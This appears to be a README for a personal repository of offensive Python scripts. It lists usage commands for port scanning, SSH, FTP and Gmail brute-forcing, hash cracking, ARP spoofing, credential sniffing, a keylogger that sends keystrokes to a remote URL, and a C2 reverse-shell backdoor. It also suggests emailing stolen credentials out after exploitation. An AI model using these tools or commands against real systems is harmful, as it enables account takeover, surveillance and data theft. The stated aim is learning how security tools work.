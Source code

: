 # A collection of my custom Python Scripts

Everything seems pretty self explanatory. There scripts are standalone, so duplicates of code are unavoidable.

Some extra packages may need to be installed in order for these to work.

There are more sophisticated tools out there that can perform the same functionalities or even better but coding custom tools is always a good mental exercise. You can also get an idea of how these tools, you might be using, work.

**Working with Python >= 3 version**

## Port Scanner

Usage examples:

`python3 portscan.py --host 192.168.1.1 --port 80`

*To specify multiple ports*

`python3 portscan.py --host 192.168.1.1 --port 21,22,25,80`

*To specify a range of ports*

`python3 portscan.py --host 192.168.1.1 --port 1-1000`

*Returns a table of results similar to the nmap.*

## SSH Bruteforcer

Usage examples:

`python3 sshbrute.py --host 192.168.1.1 --usr usersfile.txt --pwd passfile.txt`

*To specify another SSH service port*

`python3 sshbrute.py --host 192.168.1.1 --port 22 --usr usersfile.txt --pwd passfile.txt`

*To reset your session before bruteforce*

`python3 sshbrute.py --host 192.168.1.1 --usr usersfile.txt --pwd passfile.txt --rst`

*Returns a successful user:pass combination.*

## FTP Bruteforcer

Usage examples:

`python3 ftpbrute.py --host 192.168.1.1 --usr usersfile.txt --pwd passfile.txt`

*To specify another FTP service port*

`python3 ftpbrute.py --host 192.168.1.1 --port 21 --usr usersfile.txt --pwd passfile.txt`

*To try anonymous login too on top of wordlist bruteforce*

`python3 ftpbrute.py --host 192.168.1.1 --usr usersfile.txt --pwd passfile.txt --anon`

*To reset your session before bruteforce*

`python3 ftpbrute.py --host 192.168.1.1 --usr usersfile.txt --pwd passfile.txt --rst`

*Returns a successful user:pass combination.*

## Hash Cracker

**Available methods md5, sha1, sha256, sha512**

`python3 hashcracker.py --hash 21232f297a57a5a743894a0e4a801fc3 --method md5 --list userlist.txt`

*Returns a successful plaintext string if cracked*

## Hash Bruteforcer

**Available methods md5, sha1, sha256, sha512**

`python3 hashcracker.py --hash 21232f297a57a5a743894a0e4a801fc3 --method md5`

*Specify a minimum or maximum length for bruteforcing*

`python3 hashcracker.py --hash 21232f297a57a5a743894a0e4a801fc3 --method md5 --minlength 4 --maxlength 8`

*Specify a custom character set for bruteforcing*

`python3 hashcracker.py --hash 21232f297a57a5a743894a0e4a801fc3 --method md5 --minlength 4 --maxlength 8 --chars ABCDabcd1234!@#`

*Returns a successful plaintext string if cracked*

## Mac Changer

*Display your current MAC Address*

`python3 macchanger.py`

`python3 macchanger.py -c`

*Specify an interface*

`python3 macchanger.py -c -i eth0`

*Generate a Random MAC Address on a specified interface (optional)*

`python3 macchanger.py -r -i eth0`

*Manually set a MAC Address on a specified interface (optional)*

`python3 macchanger.py -n 00:11:22:33:44:55 -i eth0`

## ARP Spoofer

*Spoof your target IP with your source IP*

`python3 arpspoofer.py --dst 192.168.1.2 --src 192.168.1.5`

## Remote Execute

*Executes specified commands remotely to specified hosts*

`python3 remote_execute.py -i test.com -c whoami -u root`

`python3 remote_execute.py -i hosts.txt -c cmds.txt -u www-data`

## MAC Sniff

*Sniff traffic and revolve source and destination MAC addresses from packets*

`python3 macsniff.py`

## Credential Sniff

*Sniff plaintext credentials on a specified interface, protocol and port for simple protocols*

*This works for HTTP too but you might have some increased output due to headers such as User-Agent* 

`python3 credsniff.py -p 21`

`python3 credsniff.py -i eth0 -p 21 -t tcp`

## HTTP Credential Sniff

*Sniff plaintext credentials on a specified interface for HTTP requests only*

`python3 credsniff_http.py -i eth0`

## DNS Sniff

*Sniff all DNS queries performed on the specified interface*

`python3 dns_sniff.py -i eth0`

## Keylogger

*Capture keystrokes and send them to a ping back URL. You need to specify the URL inside the script.*

`python3 keylogger.py`

## C2

The c2 directory contains a POC backdoor example using a server and a reverse shell. You can modify the server + reverse shell port port according to your needs or by passing arguments. \
You can execute commands as you would do in an msf shell for example.
Additionally you can `download`, `upload`, `cd` to any directory and `exit` the shell.

Usage example: \
**Server** \
`python3 srv.py -p 8080 -i 0.0.0.0`

**Reverse Shell** \
`python3 rev_shell.py -p 8080 -i 0.0.0.0`

## GMail SMTP Brute

*Bruteforce GMail accounts via SMTP*

`python3 brute_gmail.py --email <victim@gmail.com> --wordlist <wordlist>`

`python3 brute_gmail.py --e <victim@gmail.com> --w <wordlist>`

In case of 2FA the password can be retrieved but you will still not be able to login without the 2FA app.

## GMail Send SMTP Email

*Send Email via Google SMTP*

`python3 send_gmail.py --email <youremail@gmail.com> --password <yourpassword>`

`python3 send_gmail.py --email <youremail@gmail.com> --pwd <yourpassword> --frm <fromemail@gmail.com> --body "Hello world"`

`python3 send_gmail.py -e <youremail@gmail.com> -p <yourpassword> -f <fromemail@gmail.com> -b "test"`

You can bundle up this script in post exploitation phases to send dumps, creds, etc to an email.
